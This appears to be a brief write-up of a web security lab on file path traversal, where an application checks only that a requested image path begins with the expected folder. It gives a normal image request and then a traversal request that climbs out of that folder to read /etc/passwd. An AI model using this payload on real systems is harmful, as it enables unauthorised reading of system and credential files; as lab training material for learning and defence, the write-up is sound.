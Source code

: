 # File path traversal, validation of start of path

## This lab contains a [file path traversal] vulnerability in the display of product images.

## The application transmits the full file path via a request parameter, and validates that the supplied path starts with the expected folder.

## To solve the lab, retrieve the contents of the `/etc/passwd` file.

### step1

GET /image?filename=/var/www/images/65.jpg HTTP/1.1

### step2

GET /image?filename=/var/www/images/../../../etc/passwd
